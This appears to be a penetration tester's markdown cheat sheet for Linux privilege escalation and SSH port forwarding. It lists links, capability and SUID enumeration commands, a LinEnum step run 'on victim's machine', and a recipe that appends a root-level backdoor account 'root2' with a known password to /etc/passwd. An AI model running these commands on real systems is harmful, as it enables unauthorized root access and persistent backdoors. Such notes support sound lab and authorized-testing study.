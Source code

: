 ## Privilege Escalation
Resources:
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
* https://payatu.com/guide-linux-privilege-escalation
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

### Get Capabilities
```
/sbin/getcap -r / 2>/dev/null
```

### Unix Privesc Check
* [unix-privesc-check](https://pentestmonkey.net/tools/audit/unix-privesc-check)

### LinEnum
Download [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) and run it on victim's machine. 

### Setuid bits
* https://gtfobins.github.io/
``` 
# Find SUID files
find / -user root -perm -4000 2>/dev/null
# Set UID bit
chmod u+s /script
```
### Search for executed cronjobs
```
grep "CRON" /var/log/cron.log
```

### Add user in /etc/passwd (if writable)
```
openssl passwd evil
echo "root2:Ur0xZo454Kq1s:0:0:root:/root/:/bin/bash" >> /etc/passwd
su root2 # passwd:evil
```

## Port Forwarding 
### Create SSH Key with forwarding permissions only
```
from="10.11.1.250",command="echo 'This account can only be used for port
forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa
<SSHKEY> www-data@ajla
```

### Local Port Forwarding
Port is opened locally 
